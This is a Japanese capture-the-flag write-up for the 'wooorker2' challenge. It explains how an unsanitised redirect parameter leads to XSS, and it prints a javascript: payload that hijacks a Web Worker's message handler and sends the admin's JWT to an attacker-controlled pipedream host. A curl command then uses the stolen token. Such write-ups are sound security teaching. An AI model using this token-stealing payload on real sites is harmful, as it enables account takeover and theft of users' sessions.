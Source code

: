 # writeup
wooorkerの続き、`admin`のJWTを窃取する問題。

wooorkerとの違いはリダイレクト先にJWTがクエリパラメータではなく、ハッシュで渡される点。

ハッシュはJWTはバックエンド側に送信されないため、wooorkerと同様の解法では解けない。

```:js
if (next) {
    window.location.href = next.includes('token=') ? next: `${next}#token=${token}`;
} else {
    window.location.href = `/#token=${token}`;
}
```

クエリパラメータ`next`がそのまま`location.href`に渡されているため、XSSによるJavaScriptの実行は可能。

しかし、フォームの入力は削除されているため、DOM要素から直接パスワードを取得することはできない。

```:js
function login() {
    const username = document.getElementById('username').value;
    const password = document.getElementById('password').value;
    document.getElementById('username').value = '';
    document.getElementById('password').value = '';
    loginWorker.postMessage({ username, password });
}
```

改めて、`main.js`を見直すとユーザー名とパスワードをバックエンドに送信し、JWTを受信する処理はWorker内で行われることがわかる。

```:js
const loginWorker = new Worker('login.js');
```

`login.js`は以下で、受け取ったJWTを`main.js`に[Worker.postMessage()](https://developer.mozilla.org/ja/docs/Web/API/Worker/postMessage)で送信する。

```
let username, password;

onmessage = async function(event) {
    if(!username) username = event.data.username;
    if(!password) password = event.data.password;

    try {
        const response = await fetch('/login', {
            method: 'POST',
            headers: {
                'Content-Type': 'application/json'
            },
            body: JSON.stringify({ username, password })
        });
        const result = await response.json();

        if (response.ok) {
            postMessage({ token: result.token });
        } else {
            postMessage({ token: '', error: result.error });
        }
    } catch (error) {
        postMessage({ token: '', error: 'Error logging in.' });
    }
};
```

そこで、XSSにより、`loginWorker`からのメッセージを受信するリスナーを設置することを考える。`username`と`password`はWorker内で保存されているため、`login`関数を再度呼び出せばログインは可能である。

以下をクローラーに送信することで`loginWorker`からのメッセージを受信するリスナーを設置し、`login`関数を呼び出して、リスナーが受け取ったJWTを自身のサーバに送信することができる。

```
login?next=javascript:loginWorker.onmessage=function(event){fetch(`https://[yours].m.pipedream.net?token=${event.data.token}`)};login();
```

最後に取得したJWTを送信することでflagが得られる。

```
curl -H "Authorization: Bearer [admin JWT]" https://wooorker2.quals.beginners.seccon.jp/flag
{"flag":"ctf4b{x55_50m371m35_m4k35_w0rk3r_vuln3r4bl3}"}
```

